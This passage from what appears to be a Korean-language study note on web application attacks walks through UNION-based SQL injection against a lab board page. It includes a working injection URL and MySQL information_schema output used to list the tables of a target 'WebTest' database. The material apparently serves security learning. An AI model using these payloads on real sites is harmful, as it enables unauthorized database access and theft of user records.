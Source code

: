 ```
| PROFILING                             |
| REFERENTIAL_CONSTRAINTS               |
| ROUTINES                              |
| SCHEMATA                              |
| SCHEMA_PRIVILEGES                     |
| SESSION_STATUS                        |
| SESSION_VARIABLES                     |
| STATISTICS                            |
| TABLES                                |
| TABLE_CONSTRAINTS                     |
| TABLE_PRIVILEGES                      |
| TRIGGERS                              |
| USER_PRIVILEGES                       |
| VIEWS                                 |
+---------------------------------------+
28 rows in set (0.00 sec)
```

![2022-10-26-108구조](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-108구조.jpg)

<br>

직접 적용

```
http://172.16.0.110/board/board_list.php?k_s=1&keyword=union+select+1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11+%23
```

![2022-10-26-109확인](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-109확인.jpg)

<br>



<br>

테이블 정보

WebTest DB  를 공격대상으로 설정

````
WebTest DB 의 테이블 정보 
mysql> use WebTest;
Database changed
mysql> show tables;
+-------------------+
| Tables_in_WebTest |
+-------------------+
| board             |
| member            |
+-------------------+
2 rows in set (0.00 sec)

mysql> use information_schema;
mysql> desc tables;
+-----------------+---------------------+------+-----+---------+-------+
| Field           | Type                | Null | Key | Default | Extra |
+-----------------+---------------------+------+-----+---------+-------+
~
| TABLE_SCHEMA    | varchar(64)         | NO   |     |         |       |  DB명
| TABLE_NAME      | varchar(64)         | NO   |     |         |       |  테이블명
| TABLE_TYPE      | varchar(64)         | NO   |     |         |       |  테이블형식(유저생성:BASE ~~~ , DBMS : SYSTEM)
~
21 rows in set (0.00 sec)

```
````